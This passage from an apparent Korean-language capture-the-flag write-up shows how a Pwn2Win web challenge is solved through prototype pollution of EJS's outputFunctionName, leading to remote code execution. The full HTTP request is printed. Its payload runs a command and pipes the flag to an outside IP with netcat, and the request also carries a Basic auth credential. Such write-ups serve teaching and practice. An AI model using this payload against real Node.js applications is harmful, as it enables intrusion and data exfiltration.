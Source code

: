 ```
POST /change_status HTTP/1.1
Host: illusion.pwn2win.party:44211
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cXp0bG5mdXlzZXVxeWpmaQ==
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: _ga=GA1.2.687081227.1622238128; _gid=GA1.2.492571223.1622429990
Content-Type: application/json
Connection: close
Content-Length: 155

{
    "constructor/prototype/outputFunctionName": "_; process.mainModule.require('child_process').execSync('./readflag | nc 141.164.52.207 80');//"
}
```
그래서 위와 같이 값을 보내 `Prototype Pollution`을 이용해서 `outputFunctionName`의 값을 `value` 값으로 오염을 시켜주었다.


![](https://github.com/wjddnjs33/image/blob/main/prototype/flag.png?raw=true)

그리고 index 페이지로 접속을 하게 되면 `ejs.renderFile()` 메서드가 실행 될 때, 이미 `outputFunctionName`의 값이 js exploit code로 오염이 되어 있어 RCE가 발생해 플래그를 얻을 수 있었다.

```
CTF-BR{d0nt_miX_pr0totyPe_pol1ution_w1th_a_t3mplat3_3ng1nE!}
```

---
